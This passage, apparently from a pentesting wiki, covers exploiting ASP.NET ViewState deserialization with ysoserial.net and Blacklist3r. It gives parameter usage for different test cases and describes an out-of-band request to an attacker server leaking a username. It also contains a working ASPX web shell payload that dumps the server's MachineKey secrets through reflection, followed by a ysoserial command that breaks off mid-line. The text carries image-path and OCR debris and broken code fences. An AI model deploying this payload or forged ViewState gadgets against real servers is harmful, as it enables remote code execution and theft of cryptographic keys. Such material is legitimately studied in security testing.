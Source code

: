 ```
```
If you have the value of `__VIEWSTATEGENERATOR` you can try to **use** the `--generator` parameter with that value and **omit** the parameters `--path` and `--apppath`

![[https://notsosecure.com/sites/all/assets/group/nss_uploads/2019/06/4.2.png|]]

A successful exploitation of the ViewState deserialization vulnerability will lead to an out-of-band request to an attacker-controlled server, which includes the username. This kind of exploit is demonstrated in a proof of concept (PoC) which can be found through a resource titled "Exploiting ViewState Deserialization using Blacklist3r and YsoSerial.NET". For further details on how the exploitation process works and how to utilize tools like Blacklist3r for identifying the MachineKey, you can review the provided [[https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC|PoC of Successful Exploitation]].

### Test Case 6 – ViewStateUserKeys is being used

The **ViewStateUserKey** property can be used to **defend** against a **CSRF attack**. If such a key has been defined in the application and we try to generate the **ViewState** payload with the methods discussed till now, the **payload won’t be processed by the application**.\
You need to use one more parameter in order to create correctly the payload:

```bash
--viewstateuserkey="randomstringdefinedintheserver"
```
```
### Result of a Successful Exploitation 

For all the test cases, if the ViewState YSoSerial.Net payload works **successfully** then the server responds with “**500 Internal server error**” having response content “**The state information is invalid for this page and might be corrupted**” and we get the OOB reques.

Check for [[<https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/[**https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/**](https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)/README.md>|further information here]]

### Dumping ASP.NET Machine Keys via Reflection (SharPyShell/SharePoint ToolShell)

Attackers who are able to **upload or execute arbitrary ASPX code** inside the target web root can directly retrieve the secret keys that protect `__VIEWSTATE` instead of bruteforcing them.  
A minimal payload that leaks the keys leverages internal .NET classes through reflection:

```csharp
<%@ Import Namespace="System.Web.Configuration" %>
<%@ Import Namespace="System.Reflection" %>
<script runat="server">
public void Page_Load(object sender, EventArgs e)
{
    var asm = Assembly.Load("System.Web");
    var sect = asm.GetType("System.Web.Configuration.MachineKeySection");
    var m = sect.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
    var cfg = (MachineKeySection)m.Invoke(null, null);
    // Output: ValidationKey|DecryptionKey|Algorithm|CompatibilityMode
    Response.Write($"{cfg.ValidationKey}|{cfg.DecryptionKey}|{cfg.Decryption}|{cfg.CompatibilityMode}");
}
</script>
```
```
Requesting the page prints the **ValidationKey**, **DecryptionKey**, the encryption algorithm and the ASP.NET compatibility mode. These values can now be fed straight into **ysoserial.net** to create a valid, signed `__VIEWSTATE` gadget:

```bash
ysoserial.exe -p ViewState -g TypeConfuseDelegate \
```